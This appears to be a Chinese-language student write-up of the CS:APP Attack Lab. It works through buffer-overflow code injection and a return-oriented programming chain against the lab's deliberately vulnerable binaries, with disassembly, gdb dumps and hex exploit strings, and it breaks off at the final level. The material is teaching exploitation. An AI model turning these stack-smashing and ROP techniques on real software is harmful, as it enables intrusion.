





# CSAPP 3: Attack lab

## 题目概览：




还是用 gpt 做了翻译，可能会有一点小偏差，毕竟没有仔细校对。

# 第一部分：CI

**对于前三个阶段，您的利用字符串将攻击CTARGET。此程序设置为每次运行时堆栈位置保持一致，以便可以将堆栈上的数据视为可执行代码。这些特性使得程序容易受到攻击，其中利用字符串包含可执行代码的字节编码。**

## level : 1

函数 getbuf 在 CTARGET 中被一个名为 test 的函数调用，该函数具有以下 C 代码：

```
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

当 getbuf 执行其返回语句（getbuf 函数的第 5 行）时，程序通常在 test 函数中继续执行（在此函数的第 5 行）。我们希望改变这种行为。在文件 ctarget 中，有一个名为 touch1 的函数的以下 C 表示法代码

```
void touch1()
 {
 vlevel = 1; /* Part of validation protocol */
 printf("Touch1!: You called   touch1()\n");
 validate(1);
 exit(0);
 }
```

您的任务是让 CTARGET 在 getbuf执行返回语句时执行 touch1 的代码，而不是返回到 test。请注意，您的
利用字符串还可能破坏与这一阶段直接无关的栈部分，但这不会造成问题，因为 touch1 会直接导致程序退
出。
一些建议:

- 所有您需要用于此级别构造利用字符串的信息，都可以通过检查 CTARGET 的反汇编版本来确定。使用obidump -d 获取此反汇编版本。

- 将touch1的起始地址的字节表示定位，以便getbuf代码末尾的ret 指令将控制权转移到
  touchl.
  
- **注意字节序。**(小端还是大端)

- 您可能想使用 GDB 逐步执行 getbuf 的最后几条指令，以确保它正在正确执行。

- buf 在 getbuf 的栈帧中的位置取决于编译时常量 BUFFER SIZE 的值以及 GCC 使用的分配策略。您需要检查反汇编代码以确定其位置。

  

### 解答：

按照它的建议用 objdump 反汇编，输出到 vscode 中查看:

```bash
objdump -d ctarget > ctarget_asm
```

定位到对应函数部分：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)       4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

由于我们需要**让 CTARGET 在 getbuf执行返回语句时执行 touch1 的代码，而不是返回到 test，**注意到这里的 gets 函数。

*`gets` 函数从标准输入读取一行字符串，并将其存储到指定的缓冲区中，但它不会检查缓冲区的大小。如果输入的数据超过了缓冲区的大小，多余的数据会覆盖相邻的内存区域，从而导致缓冲区溢出。*

具体来说就是这里的 sub 指令将 rsp 向下移动 40 字节，申请了栈空间，而 rdi 一般作为函数调用时的第一个参数，告诉了 Gets 函数**缓冲区**的地址。

前三个 level 均与缓冲区有关，所以有必要理解缓冲区到底是什么东西：

**以下内容来自 gpt：**

是的，**缓冲区**通常是用来存储局部变量的，尤其是函数中的局部数据，比如输入数据、临时计算结果、数组、结构体等。

### **为什么缓冲区通常是局部变量？**

- **局部变量**：在函数调用时分配在栈上，函数返回时销毁。栈的设计是为了存储函数的局部变量和函数调用的相关数据（如返回地址、参数等）。
- **缓冲区**：通常用于存放一些临时的数据，如用户输入、读取的文件内容、网络数据等。这些数据通常是函数调用的局部数据，因此它们就会被分配到栈上的局部变量空间中。

### **栈和局部变量的关系**

在栈中，**每个函数调用**都会为其局部变量分配一块空间，这一块空间通常称为**栈帧**（stack frame）。在栈帧中，你可以放置多个局部变量，其中就包括**缓冲区**。

举个简单的例子：

```c
void my_function() {
    char buffer[40];  // 这是局部变量，也就是缓冲区
    gets(buffer);      // 读取用户输入到缓冲区
}
```

在上面的代码中：

- `buffer` 是一个局部变量，它被分配在当前函数的栈帧中。
- 在 `gets(buffer)` 调用时，用户输入的数据会被存放在 `buffer` 中。如果输入的数据超出 40 字节，就会发生缓冲区溢出，覆盖栈上其他数据（比如返回地址）。

### **栈帧的结构**

每个函数的栈帧大致结构如下（以 `getbuf` 为例）：

```
|---------------------|
|   返回地址          | <-- 这部分会被覆盖（缓冲区溢出时）
|---------------------|
|   栈帧指针 (RBP)    |
|---------------------|
|   其他局部变量      |
|---------------------|
|   缓冲区 (buffer)    | <-- 用户输入的缓冲区，可能会溢出
|---------------------|
|   ...               |
```

在这个栈帧中，**缓冲区**（`buffer`）通常紧挨着返回地址的位置。当我们通过溢出缓冲区覆盖数据时，我们实际上覆盖的就是栈中的其他局部变量（如返回地址）。

### **总结**

- **缓冲区**是局部变量的一种，通常分配在栈帧中。
- **栈帧**包含函数调用的所有局部数据（包括缓冲区、返回地址等）。
- 如果缓冲区的大小没有限制好，用户输入超长数据时，就可能会发生缓冲区溢出，覆盖栈帧中的其他内容，从而可能导致程序的异常行为或漏洞。

**gets 是我们在 cpp 中学到的，它正是一个没有控制输入的函数，所以这里我们构造一个字符串，字符串输入进去后在栈上越叠越高直至覆盖了提前分配的缓冲区。**

于是我们只需要将对应的返回地址修改为 touch 的入口处即可：

```
#构造1le1.txt，前面反正可以随便填
#我们只需要满足对应的返回地址即可
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78 
12 34 56 78
#这里注意小端序
c0 17 40 00
```

使用 hex2raw 构造（参考附录A）

```bash
cat 1le1.txt | ./hex2raw | ./ctarget -q
```

got it ! 成功通过。但作为第一题，我们应该了解详细了解一下原理。

推荐在 gdb 中运行，查看一下运行逻辑。（记得在 run 后加 -q，毕竟咱也不是 cmu 的学生）

---


## level : 2

```
void touch2(unsigned val)
{
 vlevel = 2; /* Part of validation protocol */
 if (val == cookie) {
 printf("Touch2!: You called touch2(0x%.8x)\n", val);
 validate(2);
 } 
 else {
 printf("Misfire: You called  touch2(0x%.8x)\n", val);
 fail(2);
 }
 exit(0);
 }
```

您的任务是将 CTARGET 执行 touch2的代码，而不是返回到测试。然而，在这种情况下，您必须让 touch2看起来像您已经将其 cookie 作为参数传递给它。
一些建议:

- 您需要将注入代码的地址的字节表示放置在适当的位置，以便在 getbuf 代码末尾的 ret 指令能够将其控制权转移过去。
- 回忆一下，函数的第一个参数是通过寄存器 %rdi 传递的。
- 您的注入代码应将寄存器设置为您的 cookie，然后使用 ret 指令将控制权转移到 touch2 的第一个指令
- 不要尝试在您的漏洞利用代码中使用jmp 或 call 指令。这些指令的目标地址编码难以制定。即使在不是从调用返回的情况下，也要使用 ret 指令进行所有控制权转移。
- 查看附录 B 中关于如何使用工具生成指令序列的字节级表示的讨论。

### 解答：

这里依旧是要跳转，但是需要用到 cookie。大致意思是让我们能返回地址到 touch2 的同时，还要将 cookie 值传递过去，让 touch2 能顺利执行。

先查看一下 touch 2。

```assembly
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl  $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
  4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
  401802:	75 20                	jne    401824 <touch2+0x38>
  401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
  401809:	bf 01 00 00 00       	mov    $0x1,%edi
  40180e:	b8 00 00 00 00       	mov    $0x0,%eax
  401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401818:	bf 02 00 00 00       	mov    $0x2,%edi
  40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
  401822:	eb 1e                	jmp    401842 <touch2+0x56>
  401824:	be 10 31 40 00       	mov    $0x403110,%esi
  401829:	bf 01 00 00 00       	mov    $0x1,%edi
  40182e:	b8 00 00 00 00       	mov    $0x0,%eax
  401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
  401838:	bf 02 00 00 00       	mov    $0x2,%edi
  40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
  401842:	bf 00 00 00 00       	mov    $0x0,%edi
  401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>
```

注意到函数的第一个参数通常都是由 rdi 来传的，于是这里我们可以在 lev1 的基础上，在覆盖中插入给 rdi 赋值的过程。

参考附录B的构建过程，由于我的 cookie 值是 0x59b997fa：

```
mov $0x59b997fa %rdi
pushq $0x4017ec /* 这里的 pushq 将 touch2 压入栈，栈指针会下移*/
retq  
```

编辑后：

```assembly
gcc -c 1lev2.s
objdump -d 1lev2.o > 1lev2.byte
#得到
1lev2.o:     file format elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

得到所需的字节码，接下来我们需要寻找缓冲区的位置，然后在对应位置进行插入，打开 gdb，设置断点。

```assembly
b Gets
x/50bx $rsp #查看缓冲区的入口位置,其实p $rsp就够了
#但最好还是掌握大体的位置
0x5561dc70:     0xb4    0x17    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dc78:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc80:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
0x5561dca0:     0x76    0x19
```

注意到开头的 4017b4 正是 getbuf 中 mov 的地址：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
```

这里对应的正是到时候在 Gets 中 ret 返回的内容，显然我们找对了地方，于是编辑字节码。

返回后才是我们缓冲区的位置。

```assembly
48 c7 c7 fa 
97 b9 59 68        /* movq  $0x59b997fa, %rdi */
ec 17 40 00        /* pushq $0x4017ec */
c3 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00
78 dc 61 55
00 00 00 00        /*注意别数错了！*/
```

成功 pass。

## level : 3

第三阶段还涉及代码注入攻击，但作为参数传递字符

在文件 ctarget 中，函数 hexmatch 和 touch3 的 C 语言表示如下：

```
 /* Compare string to hex represention of unsigned value */
 int hexmatch(unsigned val, char *sval)
 {
char cbuf[110];
 /* Make position of check string unpredictable */
 char *s = cbuf + random() % 100;
 sprintf(s, "%.8x", val);
 return strncmp(sval, s, 9) == 0;
 }
 
void touch3(char *sval)
 {
 vlevel = 3; /* Part of validation protocol */
 if (hexmatch(cookie, sval)) {
 printf("Touch3!: You called touch3(\"%s\")\n", sval);
 validate(3);
 } else {
 printf("Misfire: You called touch3(\"%s\")\n", sval);
 fail(3);
 }
 exit(0);
 }
```

您的任务是将 CTARGET 执行 touch3 的代码，而不是返回到测试。您必须让 touch3 看起来像是您传递了
个字符串表示的 cookie 作为其参数。
一些建议:

- 您需要在您的漏洞字符串中包含 cookie 的字符串表示形式。该字符串应由从最高有效位到最低有效位的八个十六进制数字组成，无需前缀“0x."
- 回忆一下，在C语言中，字符串表示为一系列字节，后面跟着一个值为0的字节。在任何 Linux 机器上输入“man ascii”以查看所需字符的字节表示。
- 您的注入代码应将寄存器%rdi 设置为该字符串的地址。
- 当调用 hexmatch 和 strncmp 函数时，它们会将数据推送到栈上，覆盖了 getbuf 所使用的缓冲区所占用的内存部分。因此，您需要小心放置您 cookie 的字符串表示形式。

### 解答：

先将我们的 cookie 值进行转换，得到：

```
35 39 62 39 39 37 66 61
```

hexmatch 函数是将我们传入 touch3 的值与 cookie 值进行对比，所以这里如何将 cookie 对应的 *35 39 62 39 39 37 66 61* 传入进去成了关键。

首先先将 level2 的内容做一点小改动，将 touch2 的地址改为 touch3：

```
mov $0x59b997fa %rdi
pushq $0x4018fa /* 这里的 pushq 将 touch3 压入栈，栈指针会下移*/
retq  
```

例行转换：

```assembly
1lev3.o:     file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq   
```

接下来就是确定 touch3 调用的 hexmatch 究竟覆盖了多少，这里应该可以通过查看 touch3 以及 hexmatch 直接进行计算。

看一下 touch3 和 hexmatch 干了什么:

```assembly
00000000004018fa <touch3>:
  4018fa:	53                   	push   %rbx
  4018fb:	48 89 fb             	mov    %rdi,%rbx
  4018fe:	c7 05 d4 2b 20 00 03 	movl   $0x3,0x202bd4(%rip)        # 6044dc <vlevel>
  401905:	00 00 00 
  401908:	48 89 fe             	mov    %rdi,%rsi
  40190b:	8b 3d d3 2b 20 00    	mov    0x202bd3(%rip),%edi        # 6044e4 <cookie>
  401911:	e8 36 ff ff ff       	callq  40184c <hexmatch>
  401916:	85 c0                	test   %eax,%eax
  401918:	74 23                	je     40193d <touch3+0x43>
  40191a:	48 89 da             	mov    %rbx,%rdx
  40191d:	be 38 31 40 00       	mov    $0x403138,%esi
  401922:	bf 01 00 00 00       	mov    $0x1,%edi
  401927:	b8 00 00 00 00       	mov    $0x0,%eax
  40192c:	e8 bf f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401931:	bf 03 00 00 00       	mov    $0x3,%edi
  401936:	e8 52 03 00 00       	callq  401c8d <validate>
  40193b:	eb 21                	jmp    40195e <touch3+0x64>
  40193d:	48 89 da             	mov    %rbx,%rdx
  401940:	be 60 31 40 00       	mov    $0x403160,%esi
  401945:	bf 01 00 00 00       	mov    $0x1,%edi
  40194a:	b8 00 00 00 00       	mov    $0x0,%eax
  40194f:	e8 9c f4 ff ff       	callq  400df0 <__printf_chk@plt>
  401954:	bf 03 00 00 00       	mov    $0x3,%edi
  401959:	e8 f1 03 00 00       	callq  401d4f <fail>
  40195e:	bf 00 00 00 00       	mov    $0x0,%edi
  401963:	e8 d8 f4 ff ff       	callq  400e40 <exit@plt>
```

hexmatch：

```
000000000040184c <hexmatch>:
  40184c:	41 54                	push   %r12
  40184e:	55                   	push   %rbp
  40184f:	53                   	push   %rbx
  401850:	48 83 c4 80          	add    $0xffffffffffffff80,%rsp
  401854:	41 89 fc             	mov    %edi,%r12d
  401857:	48 89 f5             	mov    %rsi,%rbp
  40185a:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
  401861:	00 00 
  401863:	48 89 44 24 78       	mov    %rax,0x78(%rsp)
  401868:	31 c0                	xor    %eax,%eax
  40186a:	e8 41 f5 ff ff       	callq  400db0 <random@plt>
  40186f:	48 89 c1             	mov    %rax,%rcx
  401872:	48 ba 0b d7 a3 70 3d 	movabs $0xa3d70a3d70a3d70b,%rdx
  401879:	0a d7 a3 
  40187c:	48 f7 ea             	imul   %rdx
  40187f:	48 01 ca             	add    %rcx,%rdx
  401882:	48 c1 fa 06          	sar    $0x6,%rdx
  401886:	48 89 c8             	mov    %rcx,%rax
  401889:	48 c1 f8 3f          	sar    $0x3f,%rax
  40188d:	48 29 c2             	sub    %rax,%rdx
  401890:	48 8d 04 92          	lea    (%rdx,%rdx,4),%rax
  401894:	48 8d 04 80          	lea    (%rax,%rax,4),%rax
  401898:	48 c1 e0 02          	shl    $0x2,%rax
  40189c:	48 29 c1             	sub    %rax,%rcx
  40189f:	48 8d 1c 0c          	lea    (%rsp,%rcx,1),%rbx
  4018a3:	45 89 e0             	mov    %r12d,%r8d
  4018a6:	b9 e2 30 40 00       	mov    $0x4030e2,%ecx
  4018ab:	48 c7 c2 ff ff ff ff 	mov    $0xffffffffffffffff,%rdx
  4018b2:	be 01 00 00 00       	mov    $0x1,%esi
  4018b7:	48 89 df             	mov    %rbx,%rdi
  4018ba:	b8 00 00 00 00       	mov    $0x0,%eax
  4018bf:	e8 ac f5 ff ff       	callq  400e70 <__sprintf_chk@plt>
  4018c4:	ba 09 00 00 00       	mov    $0x9,%edx
  4018c9:	48 89 de             	mov    %rbx,%rsi
  4018cc:	48 89 ef             	mov    %rbp,%rdi
  4018cf:	e8 cc f3 ff ff       	callq  400ca0 <strncmp@plt>
  4018d4:	85 c0                	test   %eax,%eax
  4018d6:	0f 94 c0             	sete   %al
  4018d9:	0f b6 c0             	movzbl %al,%eax
  4018dc:	48 8b 74 24 78       	mov    0x78(%rsp),%rsi
  4018e1:	64 48 33 34 25 28 00 	xor    %fs:0x28,%rsi
  4018e8:	00 00 
  4018ea:	74 05                	je     4018f1 <hexmatch+0xa5>
  4018ec:	e8 ef f3 ff ff       	callq  400ce0 <__stack_chk_fail@plt>
  4018f1:	48 83 ec 80          	sub    $0xffffffffffffff80,%rsp
  4018f5:	5b                   	pop    %rbx
  4018f6:	5d                   	pop    %rbp
  4018f7:	41 5c                	pop    %r12
  4018f9:	c3                   	retq   
```

由于 touch3 开头就使用了 push   %rbx，将 %rbx 的值写入了栈中，接着使用  callq 调用了 hexmatch 函数，这个操作也会把 0x401916 返回地址写入 touch3 的栈帧中。在 hexmatch 的开头，连续使用了三条 push指令，修改了栈的内容。以上的几个操作会改变 buf 缓冲区的内容。

让 gpt 画了下大概是这样的：

```
+----------------------+
| test 的栈帧          |
+----------------------+
| 00 00 40 18 4c      |  <---- %rsp ① 跳转到 touch3
+----------------------+
| push %rbx           |  <---- %rsp ② push %rbx
+----------------------+
| callq 40184c        |  <---- %rsp ③ 调用 hexmatch
+----------------------+
| (padding)           |
| (对齐数据)           |
+----------------------+
| 重叠 8 个字节       |  <---- %rsp ④ 这里有连续三条 push 指令
+----------------------+
| buf (0x5561dc78)    |
| (存放输入数据)       |
| ...                 |
+----------------------+
| cbuf (0x5561dc00)   |  <---- %rsp ⑤ add $0xffffffffffffff80, %rsp
| (更多缓冲区空间)     |
+----------------------+

```

所以为了避免 cookie 值被覆盖掉，我们放在字符串的最后，注意一下计算就可以了。

```
48 c7 c7 a8 dc 61 55 /* mov    $0x5561dca8,%rdi */
68 fa 18 40 00       /* pushq  $0x4018fa */
c3                   /* retq */
00 00 00 00 00
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 78 dc 61 
55 00 00 00 00          /* buf 起始地址 */
35 39 62 39 39 37 66 61 00       /* cookie: 0x59b997fa */

```

至此，就解决了 CI 攻击：

```bash
ubuntu@192.168.174.130 ~/Desktop/attacklab/target1 % cat 1lev3.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
```


# 第二部分：ROP（Return-Oriented Programming）

对程序 RTARGET 执行代码注入攻击比 CTARGET 要困难得多，因为它使用了两种技术来阻止此类攻击：

它使用随机化，使得每次运行的栈位置都不同。这使得无法确定您的注入代码将位于何处。

它将包含堆栈的内存部分标记为不可执行，因此即使你可以将程序计数器设置为注入代码的起始位置，程序也会因段错误而失败。

幸运的是，聪明的人已经设计了通过执行现有代码而不是注入新代码来完成有用事情的战略。这种最一般的形式被称为返回导向编程（ROP）[1, 2]。ROP 的策略是识别现有程序中由一个或多个指令后跟指令 ret 组成的字节序列。这样的段被称为 *gadget*。


图 2 说明了如何设置栈来执行一系列 nn 个 gadget。在该示例中，栈包含一系列 gadget 的地址。每个 gadget 由一系列指令字节组成，最后一个字节是 0xc3，编码了 `ret`（返回）指令。当程序从这个配置开始执行 `ret` 指令时，它会触发一连串的 gadget 执行，每个 gadget 的末尾 `ret` 指令会导致程序跳转到下一个 gadget 的起始位置。

一个 gadget 可以利用编译器生成的与汇编语言语句对应的代码，特别是函数末尾的代码段。在实际情况中，可能会存在一些可用于攻击的 gadget，但并不足以实现许多关键的操作。例如，一个编译后的函数很可能不会以 `popq %rdi` 作为 `ret` 之前的最后一条指令。不过，在 x86-64 这样支持字节寻址的指令集中，我们可以通过提取指令字节模式，在其他代码片段中找到这样的 gadget。

例如，某个版本的 `rtarget` 包含了如下 C 代码生成的指令：

```c
void setval_210(unsigned *p)
{
    *p = 3347663060U;
}
```

从攻击系统的角度来看，这个函数的利用价值似乎很低。但如果我们查看该函数的反汇编代码，会发现一个有趣的字节序列：

```
0000000000400f15 <setval_210>:
  400f15:   c7 07 d4 48 89 c7   movl    $0xc78948d4, (%rdi)
  400f1b:   c3                   retq
```

例如，rtarget 的一个版本包含以下 C 函数生成的代码：

```
400f15:  c7 07 d4 48 89 c7  将 0xc78948d4 的值移动到(%rdi)寄存器 400f1b:  c3  返回
```

字节序列 48 89 c7 编码指令 movq %rax, %rdi。（参见图 3A 了解有用的 movq 指令编码。）此序列之后 是字节值 c3，它编码 ret 指令。函数从地址 0x400f15 开始，序列从函数的第四个字节开始。因此，此代码 包含一个 gadget，起始地址为 0x400f18，它将寄存器 %rax 中的 64 位值复制到寄存器 %rdi。

您的 RTARGET 代码中包含许多类似于上面显示的 setval_210 函数的功能，这些功能位于我们称之 为“gadget farm”的区域。您的任务是识别 gadget farm 中有用的 gadget，并使用这些 gadget 执行 类似于您在 2 和 3 阶段所做攻击的攻击。 重要：在您的 rtarget 复制中，通过 start_farm 和 end_farm 函数定义了 gadget farm 的边界。不要尝试 从程序代码的其他部分构建 gadgets。

## level : 2

 对于第 4 阶段，您将重复第 2 阶段的攻击，但使用来自您的 gadget 农场中的 gadget 在程序 RTARGET 上 执行。您可以使用以下指令类型的 gadget 构建解决方案，并且仅使用前八个 x86-64 寄存器（%rax %rdi）。 这些代码在图 3A 中显示。 popq：这些代码在图 3B 中显示。 ret : 此指令由单个字节 0xc3 编码。 nop：这条指令（发音为“no op”，是“no operation”的缩写）由单个字节 0x90 编码。它的唯一效果是 使程序计数器增加 1。 

一些建议： 

- 所有您需要的设备都可以在由 start_farm 和 mid_farm 函数划定的 rtarget 代码区域中找到。 

- 您可以使用仅两个组件执行此攻击。  

- 当设备使用 popq 指令时，它将从堆栈中弹出数据。因此，您的利用字符串将包含设备地址和数据组合。

  

### 解答：

我对于 ROP 攻击的理解就是在代码里东拼西凑，通过跳转拼出一份到达自己目的代码，有点类似<s>拼好饭</s>。

接下来就需要在 vscode 里搜索一些小片段。由于教授友情提示了 ：

*您可以使用仅两个组件执行此攻击。*

*当设备使用 popq 指令时，它将从堆栈中弹出数据。因此，您的利用字符串将包含设备地址和数据组合。*

根据我们在 level2 中的内容，我们可以尝试用以下代码来构造：

```assembly
popq %rax
movq %rax, %rdi
```

那么我们先找 popq 指令，在附录中可以查到对应的机器码 pop %rax 为58 ， movq %rax , %rdi 为 48 89 c7。在指定范围内搜索可以得到：

```assembly
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

```assembly
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
```

这两条指令由于后接的 retq 均可以用于构造  gadget，地址为  0x4019ab 或者 0x4019cc。

接下来寻找 48 89 c7：

```assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
```

至此我们可以通过 gadget 构造出我们想要的内容了。

```assembly
00 00 00 00 00
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00 
00 00 00 00 00
ab 19 40 00 00 00 00 00 /* addval_219: popq %rax */
fa 97 b9 59 00 00 00 00 /* cookie: 0x59b997fa */
c5 19 40 00 00 00 00 00 /* setval_426: movq %rax, %rdi */
ec 17 40 00 00 00 00 00 /* touch2 地址 */

```

over。

---


## level : 3

在开始第五阶段之前，请暂停一下，思考一下你到目前为止所取得的成就。在第二阶段和第三阶段，你使一 个程序执行了你自己设计的机器代码。

如果 CTARGET 是一个网络服务器，你就可以将你自己的代码注入到 远程机器中。在第四阶段，你绕过了现代系统用来阻止缓冲区溢出攻击的主要设备中的两个。尽管你没有注 入你自己的代码，但你能够注入一种通过拼接现有代码序列来运行的程序类型。

你还在实验室中获得了 95/100 分。这是一个不错的分数。如果你有其他紧迫的义务，考虑现在就停止。 第五阶段要求你在 RTARGET 上执行 ROP 攻击以调用 touch3 函数，使用你 cookie 的字符串表示形式的 指针。这可能并不比使用 ROP 攻击调用 touch2 困难多少，但我们已经让它变得如此。

此外，第五阶段只 占 5 分，这并不是衡量所需努力的真正标准。把它看作是一个对于那些想要超越课程正常期望的人的额外加分问题。

要解决第 5 阶段，您可以使用由函数 start_farm 和 end_farm 定义的 rtarget 代码区域的 gadget。除了第 4 阶段使用的 gadget 外，这个扩展的 farm 还包括不同 movl 指令的编码，如图 3C 所示。该部分 farm 的 字节序列还包含 2 字节指令，作为功能 nop 使用，即它们不会改变任何寄存器或内存值。这包括如图 3D 所 示的指令，例如 andb %al,%al，这些指令操作某些寄存器的低字节但不会改变它们的值

一些建议： 

- 您需要查看 movl 指令对寄存器高 4 字节的影响，如文本第 183 页所述。  

- 官方解决方案需要八个设备（其中并非所有都是独特的）。 

- 祝你好运，玩得开心!

  

### 解答:

